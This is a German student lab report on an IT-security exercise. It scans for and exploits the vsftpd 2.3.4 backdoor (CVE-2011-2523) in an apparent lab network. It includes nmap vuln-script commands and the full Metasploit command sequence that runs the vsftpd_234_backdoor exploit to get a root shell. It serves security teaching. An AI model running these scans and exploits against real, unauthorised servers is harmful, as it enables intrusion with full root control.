

# Arbeitsbericht ITSE: vsFTP Backdooor
---

Author: Markus Truschnegg

Klassse: 4AHITS

Fach: ITSE

Datum: 23.02.2026

---

## Übung (msf Basics)

### Cheatsheet:

- search: möglich nach stichwortern oder ganze pfade zu suchen (suchfunktion)
- info: gibt Informationen über das gwünschte Modul
- use: dient zum benutzen des gewünschten Moduls
- options: zeigt die optionen die es gibt 
- run: führt das gewünschte Modul dann aus

### Recherche:

Der setg-Befehl (set global) in Metasploit wird verwendet um eine Variable global für die gesamte msfconsole sitzung festzulegen. Man muss dann nicht mehr bei jedem z.B. RHOSTS einzeln einstellen sondern kann alle auf einmal.

Msfvenom ist ein Befehlszeilen-Tool im Metasploit-Framework das zur Erstellung und Anpassung von Shellcodes für Penetrationstests verwendet wird.

Meterpreter ist eine Metasploit-Angriffsnutzlast, die eine interaktive Shell bereitstellt, über die ein Angreifer den Zielrechner untersuchen und Code ausführen kann.

## Übung (nmap FTP scan)

```
nmap --script=vuln -p 21 192.168.168.136 
```

Ja es findet die Sicherheitslücke.

CVE: CVE-2011-2523

vsftpd 2.3.4, heruntergeladen zwischen dem 30.06.2011 und dem 03.07.2011, enthält eine Backdoor, die eine Shell auf Port 6200/tcp öffnet. Unbekannte hackten 2011 den offiziellen Download-Server und schleusten Schadcode in das Installationspaket ein. Ein Angreifer kann sich dann über den Port 6200 verbinden und hat sofort volle Kontrolle (Root-Rechte) über den Server, ohne ein Passwort zu kennen.

### Recherche

Diese Skripte werden als intrusive bezeichnet, weil  sie versuchen, Sicherheitslücken auszunutzen oder Dienste durch unerwartete Eingaben zu überlasten. Sie werden nicht standardmäßig mit -sc oder -A ausgeführt, um die Verfügbarkeit der Zielsysteme nicht zu gefährden.

## Übung (msf FTP Version herausfinden)

```
msfconsole
search scanner/ftp
use auxiliary/scanner/ftp/ftp_version
set RHOSTS 192.168.11.51
run
```

Version: vsFTP 2.3.4



## Übung (msf vsftpd exploit)

```
msfconsole
search vsftp
info exploit/unix/ftp/vsftpd_234_backdoor
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.168.136
run
```

Description:
  This module exploits a malicious backdoor that was added to the VSFTPD download
  archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
  June 30th 2011 and July 1st 2011 according to the most recent information
  available. This backdoor was removed on July 3rd 2011.


